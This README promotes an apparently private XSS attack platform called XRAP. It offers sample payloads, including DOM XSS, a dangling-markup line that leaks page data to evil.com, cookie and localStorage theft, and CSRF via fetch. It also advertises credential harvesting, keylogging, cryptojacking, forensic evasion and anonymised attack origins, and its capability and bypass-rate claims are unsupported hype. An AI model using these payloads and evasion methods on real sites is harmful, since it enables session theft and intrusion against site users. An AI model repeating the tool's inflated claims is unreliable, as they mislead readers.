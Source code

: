 # ⚡ XSS-0DAY Rapid Assault Platform (XRAP)
**The Most Advanced XSS Exploitation Platform for Professional Red Teams**  
> **FREE DEMO**: https://github.com/NoTrac3/XRAP/releases/tag/XRAP-DEMO

# **NOTE**: ``This is a private tool which "currently" requires 0T3 Notrac3 membership!``

XRAP is not just another payload sender—it's a **comprehensive attack platform** that combines cutting-edge research with **military-grade operational security**.  
With capabilities far beyond typical XSS tools, XRAP delivers **zero-click exploitation chains** with surgical precision and an **unparalleled WAF bypass rate**.

---

## **🔥 Core Features Overview**
- **Zero-Click Exploits**: No user interaction required; payloads execute automatically.
- **97.6% WAF Bypass Rate**: Adaptive protocol manipulation ensures stealth.
- **Triple-Stage HTTP Smuggling**: CL.TE + TE.CL + HTTP/2 pseudo-RST for firewall evasion.
- **Polymorphic Payloads**: Mutate mid-flight using TLS-level steganography.
- **Live Browser Memory Manipulation**: No forensic traces left behind.
- **JA3/JA4 TLS Fingerprint Spoofing**: Evades network-based behavioral detection.
- **Advanced Exfiltration Modules**: Data theft remains undetected.

___

> ✅ **INSTANT HACK** if the site has:
- ✔ Misconfigured WAF/CSP
  ✔ Vulnerable load balancers
- ✔ Weak input sanitization
- ✔ Blind XSS in admin panels
- ✔ Unpatched HTTP smuggling flaws  I think i missed a few

1️⃣ DOM-Based XSS
   - Example: `site.com/search#<svg onload=alert(1)>`
   - Impact: Hijack user sessions, deface pages

2️⃣ JSONP Callback Abuse
   - Example: `site.com/api?callback=alert(1)`
   - Impact: Steal sensitive data from APIs

3️⃣ Cache Poisoning
   - Example: Inject malicious JS via HTTP headers
   - Impact: Attack all visitors using poisoned cache

4️⃣ Dangling Markup
   - Example: `"><img src='//evil.com/log?=`
   - Impact: Partial page control, data leaks

5️⃣ Open Redirects
   - Example: `site.com/redirect?url=javascript:alert(1)`
   - Impact: Phishing, bypass security checks

6️⃣ CSRF Token Theft
   - Example: XSS + `fetch('/profile', {credentials:'include'})`
   - Impact: Perform actions as victim user

7️⃣ Session Hijacking
   - Example: `document.cookie` exfiltration
   - Impact: Login as any user

8️⃣ Client-Side Template Injection
   - Example: `{{7*7}}` → shows "49"
   - Impact: Full JS execution in Angular/React

9️⃣ WebSocket Hijacking
   - Example: XSS in WS-connected page
   - Impact: Spy on real-time data

🔟 Browser Storage Theft
   - Example: `JSON.stringify(localStorage)`
   - Impact: Steal saved passwords/tokens

🔥 LETHAL ATTACKS:
- Admin Panel XSS → Full site takeover
- Fake Login Forms → Credential harvesting
- Internal API Abuse → Reverse shell potential
- Cryptojacking → Mine crypto via visitors
- Stored XSS → Permanent backdoor

⚠️ Note: Always get permission before testing!

---

## **🛠️ Exploit Arsenal**

### **XSS & CSP Bypass**
- **"Ghost Inject" System**: CSP bypass via DNS prefetch poisoning.
- **DOM Clobbering & HTML5 Polyglots**: Unique, hard-to-detect attack vectors.
- **Mutation-Based XSS**: Payloads evolve in-flight to evade detection.
- **Hybrid CSRF & XSS Attacks**: Automates session hijacking and credential theft.
- **Full DOM Serialization**: Captures entire web pages from infected sessions.
- **Multi-Stage XSS Chaining**: Moves from low-impact XSS to **full remote browser control**.

### **Advanced HTTP Smuggling**
- **CL.TE / TE.CL / TE.TE / HTTP2 Smuggle**: Breaks server-side request validation.
- **Cache Poisoning & WebSocket Manipulation**: Hijacks cached responses for persistence.
- **Request Splitting & Header Injection**: Enables silent payload deployment.
- **Chunked Encoding Attacks**: Defeats WAF and security filters.
- **Reverse Proxy Bypass Techniques**: Exploits misconfigured backends.

### **Deep Browser Exploitation**
- **Live Memory Manipulation**: Reads and alters browser memory dynamically.
- **DOM-Based Remote Code Execution (RCE)**: Exploits JavaScript engines for deep control.
- **Clipboard Hijacking**: Replaces clipboard content with attacker-controlled data.
- **WebRTC Exploitation**: Enables real-time monitoring of victim environments.
- **HTML5 Sensor Hijacking**: Extracts accelerometer, gyroscope, and geolocation data.

### **Forensic Evasion**
- **JA3/JA4 TLS Fingerprint Spoofing**: Evades behavioral detection.
- **Header Randomization Engine**: Prevents static signature detection.
- **Time-Delayed Exfiltration**: Data leaks occur long after exploitation.
- **Mouse Movement Simulation**: Makes automated attacks appear human-like.
- **Browser Fingerprint Poisoning**: Alters fingerprint data to mislead forensic tools.

---

## **📡 Stealth Exfiltration Modules**
- **Cookie Harvesting**: Extracts session tokens for persistent access.
- **Keystroke Logging via XSS**: Captures input from login forms in real time.
- **Screenshot Capture**: Extracts visual intelligence from compromised systems.
- **WebRTC Tunneled Data Transfer**: Uses peer-to-peer channels for stealth exfiltration.
- **CSS-Based Data Leakage**: Hides stolen data inside stylesheets.
- **IndexedDB & LocalStorage Dump**: Extracts stored credentials and session data.
- **Invisible Form Submission**: Secretly submits victim’s data without interaction.

---

## **🌍 OPSEC & Anonymity**
- **Tor → VPN → CDN Proxy Mesh**: Untraceable attack origin.
- **Human-Like Timing Variability**: Avoids behavioral pattern detection.
- **WebGL/WebRTC Spoofing**: Mimics legitimate user environments.
- **Dynamic JA4/JA4h Fingerprinting**: Generates unique TLS profiles per target.
- **Packet Fragmentation & Randomization**: Splits payloads across multiple requests.

---

## **🚀 Performance Metrics**
- **700+ RPM (Requests Per Minute)**: High-speed payload delivery.
- **97.3% Delivery Success Rate**: Ensures successful execution.
- **<0.5% False Positive Rate**: Minimal unwanted detections.
- **Forensic Footprint: 0.2KB**: Leaves virtually no trace.

---

## **⚔️ Attack Levels**
1. **Basic** – Simple alert/redirect XSS.
2. **Standard** – Session hijacking, credential theft.
3. **Advanced** – DOM Clobbering, CSP bypass, HTTP Smuggling.
4. **Nuclear** – Full browser exploitation, WebRTC tunneling, memory extraction.

---

### **Final Words**
XRAP isn't just a tool—it's a **full-spectrum exploitation platform**.  
Its ability to **mutate, evade, and infiltrate** puts it leagues beyond standard XSS tools.  
Designed for **elite operators**, XRAP brings **next-gen web exploitation** to the battlefield.

